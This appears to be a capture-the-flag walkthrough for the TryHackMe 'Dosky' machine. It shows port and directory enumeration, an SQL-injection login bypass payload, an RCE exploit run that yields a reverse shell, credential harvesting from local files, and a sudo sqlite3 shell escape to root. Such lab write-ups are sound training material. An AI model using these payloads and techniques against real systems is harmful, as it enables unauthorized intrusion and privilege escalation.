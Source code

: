 <h1 align="center">Dosky Exploitation</h1> 
<h6 align="center"> Official Writeup for Try Hack Me</h6>

<p>Dosky is a challenge that will test your knowledge of informations security in differents areas such as:</p>
<ui>
	<li>Service Enumeration.</li>
	<li>WebApp Exploitation.</li>
	<li>Vulnerabilities exploitation using exploits.</li>
	<li>Linux Enumeration.</li>
	<li>Privilege Escaletion</li>
</ui>

___
<h3 align="center">Enumeration</h3>
<p>After deploying our virtual machine we have to enumerate services, we do not know what this server is actually running but we can try to figure out it.</p>

<p>First we will start scanning ports with <b>Rustscan</b>, this scanner is fast so we can scan all  ports in a few seconds.</p>

```
rustscan 10.10.159.174 --ulimit 5000 -- -p-

Open 10.10.159.174:22
Open 10.10.159.174:80
Open 10.10.159.174:5000
Open 10.10.159.174:10515

```
<p>There are some services runing, using <b>Nmap</b> now we can receive more information about the ports we know that are oppened</p>

```
PORT         STATE SERVICE VERSION
22/tcp         open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp         open  http    Apache httpd 2.4.29 ((Ubuntu))
5000/tcp     open  http    Werkzeug httpd 1.0.1 (Python 3.6.9)
10515/tcp   open  unknown

```
<ur>
	<li>Openssh is a normal service and we would need to find credentials to have access to it, let's take a look on it after.</li>
	<li>The port 80 is running apache2, as well it is a normal service and we can enumerate looking for information.</li>
	<li>Running on port 5000 we have an interesting service, maybe flask webapp, we will have to see this.</li>
	<li>But now we have a service that cannot be detected by nmap, we will have to see it manually.</li>
</ur>

### Apache2
<p>We have an apache server running, however this does not seem to be anything interesting as it is just a default service page showing.</p>
<p>Even viewing the code, nothing catches my attention, just a few modified texts and in different languages.</p>

### Dosky's Web Page
<p>Entering the service that runs on port 5000 we find a website about a software called dosky.</p>
<p>A normal website about the service, and reading a little about it I find out what Dosky is: Dosky is a software that is based on server and client side in two separate programs, so you can manage the services that run on your server remotely and in a secure way..</p>
<p>Okay, now that we see this let’s try to exploit something.</p>

<p>First let’s enumerate the directories of the website. we will use gobuster.</p>

```
/admin (Status: 200)
/console (Status: 200)
/download (Status: 200)
/robots.txt (Status: 200)
```

<p>Gobuste were able to find some interesting directories, one of them refers to a console that runs on Flesk applications under development and it is in debug mode, but we would have to have the pin to have access, so we wont lost our time with it.</p>
<p>"/download" can be accessed through the main page, this makes us download a program that is Dosky_Client, can be useful.</p>
<p>The webpage shows us that there is an Bug Bounty program opened for the public tu thest their aplications. After entering the Bug Bounty page it seens to be under contruction, but has a email for contact.</p>

`Email: hanny@dosky.com` It can be usefull.

<h3 align="center">WebApp Exploitation</h3>

<p>Taking a little deeper look at <b>/admin</b> takes us to the administration page that is protected by a login and password form.</p>

<p>This form allows only email to be inserted, which makes it difficult to explore, however we can bypass using a reverse proxy like <b>Burp Suite</b>.</p>

<p>This way I was able to do some tests and finally find out that the application is vulnerable to <b>sql injection</b>, so even without knowing the password we can use that email that you had found on the Bug Bounty page to bypass the authentication.</p>

### SQL Injection Time
<p>With the Burp Suite connected and intercepting all the traffic we should try to log in to the form with the following credentials:</p>

```
Email: hanny@dosky.com
pasword: abc123
```

<p>And the post data would looks like this:</p>

```
email=hanny%40dosky.com&password=abc123
```

<p>So on the email we will inject the payload</p>

`'-- -` and the post request will look like this: `email=hanny%40dosky.com'-- -&password=abc123`
so we had a success.

### Exploiting Dosky
<p>On the dashboard we have an email from someone who participated in the program and found a failure in Dosky Server, we can read the report, which explains about remote code execution found in the software and we have access to the exploit.</p>

<p>We have to download the exploit then run it using python3.</p>

`Usage: exploit.py <Remote Host> <Port>`
<p>It's very simple and first we will just have to set the server's ip and port. The service is then that stranger running on port 10515.</p>

```
Dosky 1.0 RCE PoC
[OK] - Successful connection.
[OK] - Vulnerable!
[*] - Bash payload.
Local Host> <your ip>
Local Port> 4444
[*] - Generating payload.
[*] - Injecting payload:

Listening on 0.0.0.0 4444
0.0.0.0 Connection received on 40744
bash: cannot set terminal process group (900): Inappropriate ioctl for device
bash: no job control in this shell
dosky@dosky:~$ 

```

<p>And we got a reverse shell!!!</p>

<h3 align="center">Linux Enumeration</h3>

<p>We have access to the machine, but we realize that there is a lot of content to be examined, so let's get straight to the point.<br><br> At the root of the system we have a file called <b>.important.txt</b>, this file has important information, dosky's password.</p>

```
dosky@dosky:/$ cat .important.txt

I changed the user Dosky password to: ************
it's easier and everyone will be allowed to handle that user.

```

<p>The shell we have is not so good so we can connect via ssh with the password we have now.</p>
<p>In the dosky user home folder we have the dosky service, which was exploited to give us access to the machine, in this file pythos has the access passwords for the server as well as the username. Looking better you can find the flag.</p>

```

                if user == "admin":
                    if passwd == "35e50bad096e65cebe00974daed9beec":
                        print("logged sussfully")
                        logs = """

```

<p>To obtain the first flag, we must connect to the server with Dosky_Client and login with the credentials.<br><br>The web application is found in a folder on the dosky home</p>

<p>it has a database of type sqlite3 that has Hanny's credentials to enter her dashboad, a senha para acessar o usuário de hanny é a mesma.</p>

```
dosky@dosky:~/Web_Site_v2$ cat auth.db

###[#tableauthauthCREATE TABLE "auth" (
        "user"  TEXT NOT NULL,
        "passwd"        TEXT NOT NULL
+hanny@dosky.com********

dosky@dosky:~/Web_Site_v2$ su hanny
password:
hanny@dosky:/home/dosky/Web_Site_v2$ 
```

<p>After switching users we can access hanny's home and find the second flag.</p>

```
hanny@dosky:~$ ls
SSH-Honeypot  user.txt
hanny@dosky:~$
```

<h3 align="center">Privilege Escalation</h3>

<p>To elevate our privilege on the machine there are some things we can do such as using LinPeas or tools like this. </p>
<p>But by running the command <b>sudo -l</b> we realize that we have the possibility to run the <b>SQLIte3</b> as a super user.</p>
<p>Ok! so running the command we can elevate our privilege.</p>

```
sudo sqlite3 /dev/null '.shell /bin/sh'
```

<p>Now we can go to the root's home and get the flag.</p>

<h5 align="center">The End</h5>

